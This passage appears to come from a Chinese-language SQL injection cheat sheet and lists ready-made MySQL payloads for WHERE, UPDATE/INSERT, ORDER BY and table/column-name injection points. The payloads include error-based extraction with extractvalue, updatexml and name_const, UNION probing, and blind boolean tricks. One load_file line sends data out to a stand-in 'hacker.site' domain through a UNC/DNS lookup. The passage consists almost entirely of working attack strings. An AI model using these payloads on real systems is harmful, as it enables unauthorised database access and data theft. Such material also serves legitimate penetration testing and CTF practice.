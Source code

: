 #### 2.2.5 where注入

```
' or extractvalue(rand(),version()) or '

' or updatexml(rand(),version(),0) or '

' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '

1' union select 1,2,3…n

1' into @t1,@t2,@t3…n
```

#### 2.2.6 update/insert注入

```
test'\|conv(hex(version()), 16, 10)\|'a'
load_file(concat('\\\\',version(),'.hacker.site\\txt'))\|'b

'+sqrt(1)+'
'+sqrt(ascii(user)-100)+'
```

#### 2.2.7 Order by注入

```
1' order by n

order by if(1=1,id,1)
order by id rlike case when 1=1 then 1 else char(40) end
order by \|((select flag from level1_flag)regexp '^字符串')%2b1

order by extractvalue(rand(),version())
order by updatexml(rand(),version(),0)
order by (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```

#### 2.2.8 表名/列名注入

- 表名

```
 where extractvalue(rand(),version())
 where updatexml(rand(),version(),0)
 where (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```

- 列名

```
if(1=1,user_name,1)

extractvalue(rand(),version())
updatexml(rand(),version(),0)
(SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```
